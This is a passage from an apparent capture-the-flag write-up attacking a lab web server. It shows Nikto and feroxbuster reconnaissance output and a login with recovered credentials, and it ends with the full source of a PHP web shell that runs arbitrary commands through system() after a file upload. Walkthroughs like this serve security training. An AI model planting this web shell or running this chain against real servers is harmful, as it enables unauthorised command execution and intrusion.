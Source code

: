 ```bash
+ Target IP:          10.9.9.12
+ Target Hostname:    10.9.9.12
+ Target Port:        80
+ Start Time:         2025-08-20 13:26:32 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /robots.txt: contains 2 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 246, size: 639791cc4ffb8, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: HEAD, GET, POST, OPTIONS .
+ 8076 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2025-08-20 13:26:54 (GMT-4) (22 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
The command has not uncovered anything serious or at least anything that we did not previously had an idea about.
Running the `feroxbuster` command on the paths that were exposed in the `robots.txt` file we finally get this output
```bash
kali :: exercises/HMV/lazzycorp » feroxbuster -u http://10.9.9.12/auth-lazycorp-dev/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,zip,jpg,jpeg,png

<SNIP>
404      GET        9l       31w      271c http://10.9.9.12/auth-lazycorp-dev/auth-LazyCorp-dev
404      GET        9l       31w      271c http://10.9.9.12/auth-lazycorp-dev/cms-admin.php
404      GET        9l       31w      271c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       21l       53w      710c http://10.9.9.12/auth-lazycorp-dev/login.php
301      GET        9l       28w      326c http://10.9.9.12/auth-lazycorp-dev/uploads => http://10.9.9.12/auth-lazycorp-dev/uploads/
302      GET        0l        0w        0c http://10.9.9.12/auth-lazycorp-dev/dashboard.php => login.php
```
When we visit the `login.php` file we are greeted with a login page. Using the credentials obtained from the jpg file we can login as the user dev and explore the different features in the website.
After a successful login t the page, there's a file upload option. and since we did stumble upon an `uploads` directory we can can access the uploaded reverse shell from there.
```rev.php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
```